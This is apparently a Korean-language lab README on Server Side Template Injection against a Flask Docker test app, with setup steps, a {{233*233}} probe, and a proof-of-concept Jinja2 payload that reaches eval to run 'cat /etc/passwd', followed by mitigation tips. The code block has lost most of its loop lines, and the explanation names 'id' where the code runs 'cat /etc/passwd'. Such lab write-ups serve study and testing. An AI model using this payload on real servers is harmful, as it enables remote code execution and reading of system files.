


# SSTI

**Contributors**

-   [박현재(@parK1NG)](https://github.com/park1NG)

<br/>

### 개요

-   SSTI(Server Side Template Injection)은 공격자가 서버측 템플릿 구문을 통한 악성 페이로드를 페이지에 삽입하여 실행되도록 하는 공격기법이다.
-   SSTI 공격은 공격자가 서버에서 임의의 코드를 실행할 수 있는 사용자 입력으로 템플릿 지시문을 주입할 때 가능하다. 
-   해당 공격 등을 통해서 리눅스의 사용자 목록을 알아내거나 리버스 쉘이 가능해서 서버에 매우 위협이 되는 동작을 수행할 수 있다.
-   고급 사용자 제공 마크업을 지원하는 웹 애플리케이션(ex: 위키, 블로그, 마케팅 애플리케이션, 콘텐츠 관리 시스템 등)은 서버 측 템플릿 인젝션에 취약할 수 있다.
-   사용자 입력이 단순히 템플릿에 직접 연결되는 경우 의도하지 않은 템플릿 인젝션이 발생할 수 있으며, 이는 잘못 작성된 준비된 문장에서 발생하는 SQL 인젝션 취약점과 유사하다.

<br/>

### 환경 구성 및 실행

-   `docker compose build`를  `docker-compose.yml` 파일을 찾아 해당 파일에 정의된 서비스(컨테이너)에 대한 이미지를 빌드함.
-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8000/`에 접속하여 flask 기본 페이지를 확인함.
-   `http://your-ip/?name={{233*233}}`를 호출하여 반환 결과를 읽음. 결과에서 54289를 보고 SSTI 취약점이 발생할 수 있음을 알 수 있다.

<br/>

### POC code

```


  
  
    
      {{ b['eval']('__import__("os").popen("cat /etc/passwd").read()') }}
    
  
  


```

-   `for c in [].__class__.__base__.__subclasses__()`: - 빈 리스트([]) 클래스의 기본 클래스를 기준으로 하위 클래스(subclasses)를 반복적으로 탐색함.
-   `if c.__name__ == 'catch_warnings'`: 하위 클래스 중에서 클래스 이름이 'catch_warnings'인 클래스를 찾음.
-   `for b in c.__init__.__globals__.values()`: 'catch_warnings' 클래스의 __init__ 메서드 내부의 전역 변수(global variables)를 반복적으로 탐색.
-   `if b.__class__ == {}.__class__` : 전역 변수가 빈 딕셔너리({}) 클래스와 같은 클래스인 경우를 확인
-   `if 'eval' in b.keys()`: 딕셔너리에 'eval' 키가 존재하는지 확인
-   `{{ b['eval']('__import__("os").popen("cat /etc/passwd").read()') }}`: 'eval' 키가 있는 경우, os.popen("id").read()를 실행하여 호스트 시스템에서 'cat /etc/passwd' 명령을 실행하고 결과를 반환


<br/>

### 결과

  


<br/>

### SSTI 취약점 대비 방법

-   SSTI 공격으로부터 웹 애플리케이션을 보호하기 위해 `Mustache` 또는 파이썬의 템플릿과 같은 위험이 낮은 접근 방식을 사용한다 
-   또한 MediaWiki와 같은 일부 웹 애플리케이션은 잠재적으로 위험한 모듈과 함수가 제거된 샌드박스화된 Lua 환경에서 사용자 코드를 실행한다.
